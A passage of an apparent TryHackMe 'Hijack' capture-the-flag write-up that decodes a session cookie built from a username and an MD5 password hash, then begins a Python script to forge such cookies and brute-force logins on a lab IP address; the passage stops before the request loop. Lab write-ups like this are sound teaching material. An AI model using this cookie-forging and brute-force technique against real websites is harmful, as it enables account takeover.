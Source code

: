 Next, I used the account I created earlier to examine the login mechanisms. I found a Base64-encoded session cookie, which I had a closer look at:

![Request](/assets/img/tryhackme/Hijack/thm_hijack_3.jpg)

Because of the URL encoding, I changed the `%3D` back to `=` and was able to decode the `base64` string:
```bash
kali@kali:~/ctf/hijack$ echo "dGVzdDpjYzAzZTc0N2E2YWZiYmNiZjhiZTc2NjhhY2ZlYmVlNQ==" | base64 -d
test:cc03e747a6afbbcbf8be7668acfebee5
```

The session cookie was created from the combination of `<<username>>:<<md5 hash of password>>`. I confirmed the hash using Crackstation, which matched the password I had set:

![Crackstation](/assets/img/tryhackme/Hijack/thm_hijack_4.jpg)

### password brute force 

Since there was no rate limit on session cookies, I wrote a script to automate the process of creating cookies and using them to authenticate with the website:
```python
url = "http://10.10.125.174/index.php"

username = "test"
password = "test123"

# md5 hash of the password
md5_password = hashlib.md5(password.encode()).hexdigest()

# base64 encoding
authentication_string = base64.b64encode(f"{username}:{md5_password}".encode())

# encode special characters
authentication_string = str(authentication_string.decode()).replace("=","%3D")

# create the authentication header
header = {
    "Cookie": f"PHPSESSID={authentication_string}"
} 

# requets to the website
```